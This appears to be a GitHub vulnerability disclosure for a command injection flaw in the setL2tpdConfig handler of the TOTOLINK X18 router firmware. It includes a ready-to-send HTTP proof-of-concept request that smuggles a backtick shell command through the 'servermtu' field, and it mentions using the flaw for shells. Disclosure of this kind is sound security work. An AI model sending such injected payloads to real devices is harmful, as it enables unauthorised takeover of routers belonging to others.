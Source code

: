 # TOTO Link X18 Unauthorized Arbitrary Command Execution vulnerability

## Supplier 

https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/226/ids/36.html

version:V9.1.0cu.2024_B20220329	

## Vulnerability File

setL2tpdConfig function in cstecgi.cgi

## Describe

In the setL2tpdConfig function in the firmware of X18, there are arbitrary system command vulnerabilities and RCE vulnerabilities, which can be executed by arbitrary system commands to obtain server permissions, bounce shells, etc.

## Code Analysis

The vulnerability trigger points and the source code of the cstecgi.cgi file are as follows setL2tpdConfig  function, you can see that the value of the obtained Enabled is saved to Var, and then the value of the servermtu is saved to v10, so when Enabled=1 enters the code statement, passes the content of servemtu to dosystem, and constructs payload to directly execute system commands. dosystem is a function that encapsulates the system.

![Image](https://github.com/user-attachments/assets/b52288eb-46f2-4bcb-b95a-79b968462c40)

![Image](https://github.com/user-attachments/assets/adfa1fe4-87d0-4268-98c1-a2b5db816e40)

![Image](https://github.com/user-attachments/assets/ddef678a-a7a8-4247-9324-7c2892a1f66f)

## POC

excute "id" command.

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 124
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/advance/static_route.html?timestamp=1715924422681

{

"Enabled":"1",
"servermtu":"`id>/web/1.txt`",
"topicurl":"setL2tpdConfig","token":"563eeae9c15be17f3fdc4f36db0fa17f"}
```

![Image](https://github.com/user-attachments/assets/a21a8e73-8e67-46c2-8b7d-5a2c179f9702)

Result

asset the url, get command exec result.

```
http://192.168.123.16/1.txt
```

![Image](https://github.com/user-attachments/assets/fa7275ea-08bf-4a5c-93b7-0ac1c337b3df)
